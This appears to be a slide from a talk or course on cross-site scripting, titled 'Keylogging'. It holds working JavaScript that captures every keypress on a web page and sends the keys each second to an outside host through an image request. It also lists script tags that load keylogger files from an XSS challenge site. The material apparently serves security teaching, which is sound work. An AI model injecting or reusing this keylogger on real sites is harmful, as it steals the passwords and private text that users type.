

# Keylogging
<script>
var keys = '';

document.onkeypress = function(e) {
    var get = window.event ? event : e;
    var key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}

window.setInterval(function(){
    new Image().src = 'http://r7.io/k/?c=' + keys;
    keys = '';
}, 1000);
</script>

Demo:
	- <script src="http://xss-challenges.r7.io/static/keylogger0.js"></script>
	- <script src="http://xss-challenges.r7.io/static/keylogger1.js"></script>
Source:
	- http://wiremask.eu/xss-keylogger/